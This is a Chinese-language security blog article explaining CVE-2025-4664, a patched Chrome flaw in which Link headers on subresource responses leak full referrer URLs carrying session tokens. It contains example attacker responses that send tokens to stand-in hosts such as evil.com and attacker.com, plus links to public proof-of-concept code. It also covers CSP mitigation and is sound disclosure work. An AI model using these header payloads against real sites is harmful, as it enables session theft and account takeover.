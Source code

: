 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzAxMjYyMzkwOA==&mid=2247531480&idx=1&sn=2e497359655cae7f01a5cd5eaf883a10

#  CVE-2025-4664：利用 Chrome 0day 漏洞泄露会话令牌  
 Ots安全   2025-07-01 05:34  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
此漏洞通过捕获 URL 中的会话令牌来实现帐户接管 (ATO)，通过使用目标应用程序、SSO 提供程序和攻击者服务器的概念验证设置进行演示，并通过视频演示展示对 Chrome 版本 136.0.7103.113 与修补后的 138.0.7204.49 的攻击，这与网络安全中引荐来源策略滥用的研究相一致（例如，W3C 引荐来源策略候选建议，2017 年）。  
  
  
该问题源于 Chrome 在子资源的链接标头中处理引荐来源策略的罕见行为，这是其他浏览器中未复制的功能，强调了内容安全策略 (CSP) 补丁纠正的一个关键疏忽，更多详细信息请参阅 Chromium 的错误报告 (问题 415810136)。  
  
不久前，我偶然发现了安全研究员 Vsevolod Kokorin（@slonser_）的一条有趣的推文：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tae4sq4NxqR4sy8MArWUK8f0KSwrNUiapLGd4HVWc466R9CWBXLE1kIdp8VENu0ChMg5kp0p0IrLQnA/640?wx_fmt=png&from=appmsg "")  
  
slonser_ 的推文  
  
这三行代码片段几乎很无聊 - 创建一个<img>元素，指向src用户控制的 URL，将其放入 DOM。  
  
随后的帖子引起了 Google 安全工程师 @terjanq 的注意，他回复道：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tae4sq4NxqR4sy8MArWUK8f0Pib82SEIVdYp6CEGRzOJPJn1EyP0EIJsedDmkq2YKU5Kicd31nS6ZdGw/640?wx_fmt=png&from=appmsg "")  
  
terjanq 的回复  
  
我检查了NIST 页面并在链接的Chrome 发行说明中发现了这一点：  
> 谷歌安全团队刚刚确认，这个漏洞（编号为 CVE-2025-4664）正在被广泛利用。  
  
  
一个被积极利用的 0day 漏洞？我必须深入挖掘。  
  
为了理解此漏洞的工作原理，让我快速介绍一些关键的网络概念。  
  
快速入门  
- HTTP Referer：当您的浏览器从一个域加载包含来自另一个域的资源（图像、CSS）的页面时，它会发送一个Referer标头，告诉第二个域该请求来自哪里。  
  
- 引荐来源政策：网站可以控制共享多少引荐来源信息 - 从不发送任何内容（no-referrer）到发送包含敏感查询参数的完整 URL（unsafe-url）。  
  
- 链接标头：一个 HTTP 标头，用于告知浏览器需要预加载或预取哪些资源以进行优化。  
  
Chrome 的奇怪行为  
  
Chrome 具有其他浏览器所没有的有趣功能：它处理Link子资源请求的 HTTP 标头。  
  
标Link头通常用于资源提示：  
  

```
Link: <https://cdn.example.com/style.css>; rel=&#34;preload&#34;; as=&#34;style&#34;
```

  
  
这会告诉 Chrome 尽早开始下载 CSS 文件。这是正常的优化操作。  
  
但这里有一个问题——HeaderLink也可以指定 referrer 策略，Chrome 会遵守这个策略，即使是图片这样的子资源。  
  
因此攻击者可以制作如下的响应：  
  

```
Link: <https://attacker.com/log>; rel=&#34;preload&#34;; as=&#34;image&#34;; referrerpolicy=&#34;unsafe-url&#34;
```

  
  
当 Chrome 处理此标头时，它会向攻击者的服务器发出预加载请求并发送完整的引荐来源 URL - 包括任何敏感的查询参数。  
  
其他浏览器会忽略子资源标头中的 referrer 策略Link。只有 Chrome 认为这值得实现。  
  
通过引荐来源泄露导致账户接管  
  
危险之处就在于此。许多应用程序在身份验证后会将敏感数据放入 URL 中：  
  

```
https://app.com/profile?session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...
```

  
  
如果该页面加载了攻击者控制的图像：  
  

```
<imgsrc=&#34;https://attacker.com/track.png&#34; />
```

  
  
攻击者回应：  
  

```
HTTP/1.1 200 OK
Content-Type: image/png
Link: <https://evil.com/steal>; rel=&#34;preload&#34;; as=&#34;image&#34;; referrerpolicy=&#34;unsafe-url&#34;

[PNG image data]
```

  
  
Chrome 处理Link标头，向发出预加载请求https://evil.com/steal，并包含带有受害者会话令牌的完整引荐来源 URL。  
  
攻击者现在拥有有效的会话令牌并可以冒充用户。  
  
概念验证  
  
为了模拟 ATO，我构建了一个包含三个组件的完整演示：  
- 目标应用程序（example.com:5000）：具有将会话令牌放入 URL 中的 OAuth 流程的主应用程序  
  
- SSO 提供商（sso.example.com:5001）：处理身份验证  
  
- 攻击者（attacker.test:9000）：利用 CVE-2025-4664 窃取代币  
  
攻击流程：  
1. 用户完成 OAuth 登录后，重定向至/profile?session=<token>  
  
1. 个人资料页面加载攻击者的图像：<img src="http://attacker.test:9000/image">  
  
1. 攻击者使用恶意Link标头进行响应  
  
1. Chrome 发出预加载请求，泄露带有会话令牌的完整引用者  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tae4sq4NxqR4sy8MArWUK8f0GdzHRIRQqJyw52KB4vJGBHjxzLGg82zW6VEdYZibJAiaPWDiaLia9ibEvXw/640?wx_fmt=png&from=appmsg "")  
  
事件流  
  
不过，CVE-2025-4664 并不仅限于图像或 OAuth 重定向。任何攻击者控制的子资源都可能泄露包含敏感查询参数的完整页面 URL。  
  
视频演示  
  
以下是对易受攻击的 Chrome 版本 (136.0.7103.113) 与最新稳定版本 (138.0.7204.49) 的利用情况的并排比较：  
  
  
缓解策略  
  
Chrome 已修复此问题，因此它仅影响旧版本。主要的防御措施是严格的 CSP：  
  

```
Content-Security-Policy: img-src 'self'https://trusted-cdn.com
```

  
  
这可以防止从不受信任的域加载图像。  
  
如果您好奇 Chrome 是如何修复此问题的，请查看 Chromium 错误报告中的提交：https://issues.chromium.org/issues/415810136。  
  
PoC  
> 完整的 PoC 存储库：amalmurali47/cve-2025-4664。  
  
> https://github.com/amalmurali47/cve-2025-4664  
  
> 如果想要进行无需任何设置的快速测试，请尝试Rhynorater 的 PoC。  
  
> https://poc.rhynorater.com/qt/test.html?j=2.#%3Cimg%20src%3D%22https%3A%2F%2Fx.poc.rhynorater.com%2FleakImage.php%3Furl%3Dhttps%3A%2F%2Fyywkld65s2ahmutz0320svb8l3a5jcf5t.oast.site%22%3E  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
